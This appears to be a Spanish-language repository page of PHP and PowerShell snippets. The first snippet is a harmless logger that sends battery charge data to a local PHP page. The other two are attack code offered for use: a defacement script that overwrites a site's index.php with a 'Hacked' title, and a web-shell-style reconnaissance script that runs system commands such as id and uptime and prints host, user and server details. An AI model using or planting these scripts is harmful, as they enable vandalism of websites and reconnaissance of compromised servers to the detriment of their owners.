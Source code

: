 ### Almacenar en un fichero informacion sobre la batería del equipo ejecutando un fichero en PHP desde un servidor remoto

#### Código de la petición de batería (PowerShell)
```PowerShell
Invoke-WebRequest ("http://localhost/index.php?valor=" + ((Get-WmiObject Win32_Battery).EstimatedChargeRemaining) + "&hora=" + (Get-Date))
```

#### Código de la web (PHP)
```PHP
<?php
	$valor = $_GET["valor"];
	$hora = $_GET["hora"];

	$file = fopen("archivo.txt", "w");
	fwrite($file, $hora . "*" . $valor . PHP_EOL);
	fclose($file);

	$file = fopen("archivo.txt", "r");
	
	while(!feof($file)) {
		echo fgets($file). "<br />";
	}

	fclose($file);
?>
```

### Realizar un deface
```PHP
<?php
	$fp=fopen("index.php","w+");

	fwrite($fp,"<title>Hacked</title>\n");
	fclose($fp);
?>
```

### Obtener información del sistema
```PHP
<?php
	$alb = @php_uname();
	$alb2 = system(uptime);
	$alb3 = system(id);
	$alb4 = @getcwd();
	$alb5 = getenv("SERVER_SOFTWARE");
	$alb6 = phpversion();
	$alb7 = $_SERVER['SERVER_NAME'];
	$alb8 = gethostbyname($SERVER_ADDR);
	$alb9 = get_current_user();
	$os = @PHP_OS;

	echo "os: $os<br>";
	echo "uname -a: $alb<br>";
	echo "uptime: $alb2<br>";
	echo "id: $alb3<br>";
	echo "pwd: $alb4<br>";
	echo "user: $alb9<br>";
	echo "phpv: $alb6<br>";
	echo "SoftWare: $alb5<br>";
	echo "ServerName: $alb7<br>";
	echo "ServerAddr: $alb8<br>";
```